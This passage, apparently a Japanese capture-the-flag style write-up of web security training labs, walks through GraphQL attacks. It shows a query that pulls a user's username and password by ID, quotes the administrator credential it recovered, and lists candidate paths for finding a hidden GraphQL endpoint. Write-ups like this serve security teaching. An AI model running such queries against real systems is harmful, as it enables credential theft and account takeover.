 結果を見てみると、Userの中にusername, passwordフィールドがあります。

また、`getUser`というqueryがあり、argsとして`id`を受け付けます。

### Exploit

`getUser` queryを使い、argsで探索を行えば良さそうです。

```graphql
query getBlogSummaries {
    getUser(id: 1) {
        id
				username
				password
    }
}
```

このようなqueryを発行することで、`administrator:a0ia9lywzgz4kalidss4`という認証情報が得られます。

この認証情報で、ログインしcarlosを消し去れば終わりです。

## Finding a hidden GraphQL endpoint
### Goal

carlosアカウントを削除する

### Analyze

まずこのラボではGraphQLエンドポイントがクロールしただけでは見つかりません。

```text
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
```

この5つのエンドポイントに対して適当に送ってみます。

`/api`に対して送信した時レスポンスが他の4つと違うことに気づきます。

```text
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 19

"Query not present"
```

Query not presentのためGraphQLエンドポイントがある可能性が高そうです。
